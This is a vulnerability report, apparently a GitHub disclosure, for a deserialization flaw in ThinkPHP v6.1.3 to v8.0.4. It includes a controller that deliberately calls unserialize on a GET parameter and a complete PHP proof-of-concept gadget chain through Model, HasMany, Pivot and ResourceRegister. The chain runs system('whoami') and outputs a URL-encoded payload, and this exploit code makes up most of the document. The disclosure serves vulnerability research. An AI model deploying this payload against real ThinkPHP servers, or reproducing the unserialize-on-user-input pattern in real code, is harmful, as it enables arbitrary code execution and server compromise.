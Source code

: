 ## Vulnerability description

A deserialization vulnerability in Thinkphp v6.1.3 to v8.0.4 allows attackers to execute arbitrary code.

By triggering the __call method of the HasMany class



## Affects Version



Thinkphp v6.1.3 to v8.0.4

## Vulnerability certificate

php8.0.2 thinkphp v8.0.0



First, add new deserialization endpoint in app\controller\Index.php, such as:

```php
<?php

namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        unserialize($_GET['lll']);
        return '<style>*{ padding: 0; margin: 0; }</style><iframe src="https://www.thinkphp.cn/welcome?version=' . \think\facade\App::version() . '" width="100%" height="100%" frameborder="0" scrolling="auto"></iframe>';
    }

}
```



POC

```
<?php


namespace think;

abstract class Model
{

    private $data = [];
    private $withAttr = [];
    protected $json = [];
    protected $jsonAssoc = true;
    private $lazySave;
    protected $withEvent;
    private $exists;
    private $force;
    protected $table;
    protected $connection;
    function __construct()
    {
        $this->data["lll"]=["whoami"];
        $this->withAttr["lll"]=["system"];
        $this->json=["lll"];
        $this->lazySave = true;
        $this->withEvent = false;
        $this->exists = true;
        $this->force = true;
        $this->jsonAssoc = true;

    }
}
namespace think\model\relation;
use think\model\Pivot;
use think\model\HasOne;


class HasMany{
    protected $localKey;
    protected $query;
    protected $baseQuery;
    protected $parent;
    protected $foreignKey;

    function __construct(){
        $this->query=true;
        $this->baseQuery=null;
        $this->parent=new HasOne();
        $this->localKey=new Pivot();
    }

}

namespace think\model;

use think\Model;

class Pivot extends Model
{
}


namespace think\route;
use think\model\relation\HasMany;

class ResourceRegister
{
    protected $registered = false;
    protected $resource;
    protected $db;
    function __construct()
    {
        $this->registered=false;
        $this->resource=new HasMany();
    }
}


namespace think;
use think\route\ResourceRegister;
$r=new ResourceRegister();
echo urlencode(serialize($r));

```
![image-20240912115356270](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240912115356270.png)


